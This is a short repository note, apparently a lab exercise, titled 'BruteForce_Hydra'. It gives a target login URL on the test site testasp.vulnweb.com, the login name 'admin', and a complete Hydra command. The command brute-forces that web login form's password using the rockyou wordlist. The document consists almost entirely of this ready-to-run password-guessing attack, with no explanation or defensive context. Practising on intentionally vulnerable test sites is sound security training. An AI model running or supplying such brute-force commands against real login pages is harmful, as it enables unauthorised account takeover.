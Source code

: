 # BruteForce_Hydra

Target: http://testasp.vulnweb.com/Login.asp?RetURL=%2FDefault%2Easp%3F
Login name: admin

Command: hydra -l admin -P /usr/share/wordlists/rockyou.txt http://testasp.vulnweb.com/ http-post-form "/Login.asp?RetURL=%2FDefault%2Easp%3F:tfUName=^User^&tfUPass=^PASS^:S=logout" -vV -f
